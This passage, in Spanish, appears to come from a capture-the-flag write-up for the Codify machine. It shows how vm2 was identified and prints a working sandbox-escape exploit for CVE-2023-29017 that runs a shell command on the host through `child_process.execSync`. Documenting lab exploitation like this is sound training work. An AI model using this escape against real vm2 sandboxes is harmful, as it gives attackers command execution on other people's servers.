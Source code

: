 ```bash
try {
    throw new Error("Enumerate library");
} catch (e) {
    console.log(e.stack);
}
```

El resultado obtenido indica que se está empleando **vm2**.

<div style="text-align: center;">
		<img src="/assets/images/Codify/enumLibrary.jpg" alt="editorial" width="1000" oncontextmenu="return false;" />
</div>
<br>
Una vez identificada la biblioteca, intenté obtener su versión exacta sin éxito. No obstante, encontré el siguiente **CVE** relevante:

* **CVE-2023-29017**.

En base al siguiente [recurso](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) el cual indica que existe una vulnerabilidad en la sanitización de excepciones de **vm2** para versiones hasta la **3.9.16**. 

Al probar el código malicioso descrito en dicho recurso, se confirmó la posibilidad de escapar del sandbox y ejecutar comandos en la máquina host.

```javascript
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('id');
}
```
